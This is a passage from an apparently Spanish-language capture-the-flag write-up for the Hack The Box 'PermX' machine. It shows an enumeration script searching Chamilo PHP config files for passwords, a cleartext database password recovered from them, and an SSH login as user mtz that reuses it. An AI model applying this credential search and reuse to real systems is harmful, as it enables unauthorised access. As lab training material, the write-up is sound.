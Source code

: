 ```bash
about.html   elearning-html-template.jpg  lib         testimonial.html

```

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => false,                                                                                                
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => true,
/var/www/chamilo/app/config/configuration.php:        'wget_password' => '',
/var/www/chamilo/app/config/configuration.php:    'force_different_password' => false,
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8'
```

Después del escaneo nos aparece una posible contraseña para el usuario MTZ que hos ha aparecido antes:

```bash
┌──(mili㉿kali)-[~/Desktop/HTB/PermX]
└─$ ssh mtz@10.10.11.23
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Oct  1 10:51:53 PM UTC 2024

  System load:           0.12
  Usage of /:            59.6% of 7.19GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             242
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.23
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a912


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
mtz@permx:~$
```
